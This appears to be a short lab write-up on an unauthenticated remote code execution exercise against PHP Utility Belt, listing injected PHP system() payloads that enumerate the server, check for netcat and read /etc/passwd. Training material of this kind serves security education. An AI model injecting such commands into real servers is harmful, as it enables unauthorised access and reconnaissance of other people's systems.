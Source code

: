 #### 5. PHP Utility Belt

- The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.
- In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.
- A version of PHP Utility Belt is vulnerable to a remote code execution attack.
- Objective: Your task is to find and exploit this vulnerability.

----

```sh
system("id");
system("ls -lah");
system("ip addr");
system("which nc");
system("cat /etc/passwd");
```

![](images/5/1.png)

![](images/5/2.png)

![](images/5/3.png)

![](images/5/4.png)

![](images/5/5.png)

![](images/5/6.png)